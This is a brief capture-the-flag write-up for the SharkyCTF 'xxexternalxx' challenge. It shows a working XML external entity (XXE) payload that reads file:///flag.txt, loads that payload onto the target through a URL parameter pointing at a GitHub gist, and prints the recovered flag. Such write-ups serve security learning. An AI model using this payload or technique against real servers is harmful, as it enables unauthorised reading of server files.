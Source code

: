 Prompt
```
One of your customer all proud of his new platform asked you to audit it. To show him that you can get information on his server, he hid a file "flag.txt" at the server's root.

xxexternalxx.sharkyctf.xyz
```

Clicking on Header "Show Stored Data takes us to this URL"
`http://xxexternalxx.sharkyctf.xyz/?xml=data.xml`

if we go to /data.xml we get the following
```
<root>
<data>
17/09/2019 the platform is now online, the fonctionnalities it contains will be audited by one of our society partenairs
</data>
</root>
```

XEE Injection time, we can inject an URL into the php parameter, so put the following into a github just and pass it in

`<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///flag.txt'>]><root><data>&test;</data></root>`


`http://xxexternalxx.sharkyctf.xyz/?xml=https://gist.githubusercontent.com/jhweintraub/7e4f981cf41300e7586a6084bb4a3e7d/raw/b2ab20801d1b57b73d1c901dbc75d3fd12de0c54/gistfile1.txt`

Flag Pops Right out

shkCTF{G3T_XX3D_f5ba4f9f9c9e0f41dd9df266b391447a} 
